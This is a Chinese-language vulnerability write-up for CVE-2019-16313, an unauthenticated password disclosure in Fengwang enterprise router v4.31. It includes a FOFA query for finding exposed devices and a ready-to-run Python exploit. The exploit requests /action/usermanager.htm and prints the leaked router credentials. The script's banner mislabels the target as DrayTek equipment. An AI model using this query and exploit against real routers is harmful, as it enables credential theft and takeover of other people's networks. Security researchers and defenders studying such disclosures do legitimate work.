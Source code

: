 # 蜂网互联 企业级路由器v4.31 密码泄露漏洞 CVE-2019-16313

## 漏洞描述

蜂网互联企业级路由器v4.31存在接口未授权访问，导致攻击者可以是通过此漏洞得到路由器账号密码接管路由器

## 漏洞影响

> [!NOTE]
>
> 蜂网互联企业级路由器v4.31

## FOFA

> [!NOTE]
>
> app="蜂网互联-互联企业级路由器" 

## 漏洞复现

![](image/feng-2.png)

登录页面登录后可以看到，账号密码存在接口访问

![](image/feng-1.png)

而 **/action/usermanager.htm** 存在未授权访问，可通过直接访问获得账号密码

![](image/feng-3.png)

> [!NOTE]
>
> 不存在漏洞时  state值为 3

##  漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/action/usermanager.htm"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/action/usermanager.htm \033[0m".format(target_url))
        if "pwd" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](image/feng-4.png)

## Goby & POC

![](image/feng-5.png)